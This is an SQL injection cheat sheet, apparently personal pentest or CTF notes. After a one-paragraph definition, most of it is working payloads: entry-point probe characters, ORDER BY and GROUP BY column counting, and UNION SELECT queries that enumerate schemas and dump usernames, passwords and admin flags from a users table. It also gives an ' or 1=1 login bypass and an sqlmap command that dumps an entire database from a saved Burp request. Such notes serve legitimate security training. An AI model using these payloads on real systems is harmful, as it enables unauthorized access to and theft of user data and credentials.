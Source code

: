 # SQL Injection

SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behaviour.

## Entry Point

```console

'
"
`
')
")
`)
'))
"))
`))
```

Look for error messages

## Union based

When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack.

### Determing Number of Columns**

**Order by**
```
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```

**Group by**
```
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```

**Union SELECT**
```
0 union select 1,2,3,4 -- -

or

1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worke
```
### Extract database names, table names and column names

```
0 union select 1,group_concat(schema_name),3,4 from information_schema.schemata-- -
0 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='marketplace'-- -
0 union select group_concat(column_name,'\n'),2,3,4 from information_schema.columns where table_name='users'-- -
0 union select 1,group_concat(id,':',username,':',password,':',isAdministrator,'\n'),3,4 from marketplace.users-- -
0 union select group_concat(column_name,'\n'),2,3,4 from information_schema.columns where table_name='messages'-- -
```

## SQLi

payloads
```
' or 1=1 -- -
```

## Dump database MYSQL with SQLmap

Save a burpsuite request to .txt

```
POST /portal.php HTTP/1.1
Host: 10.10.108.153
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.10.108.153
DNT: 1
Connection: close
Referer: http://10.10.108.153/portal.php
Cookie: PHPSESSID=lt2o95mtbod8hm08plije1jk03
Upgrade-Insecure-Requests: 1

searchitem=burp
```

Dump database

```console
$ sqlmap -r request.txt --dbms=mysql --dump

-r use request.txt
--dbms type of db management
--dump output entire db
```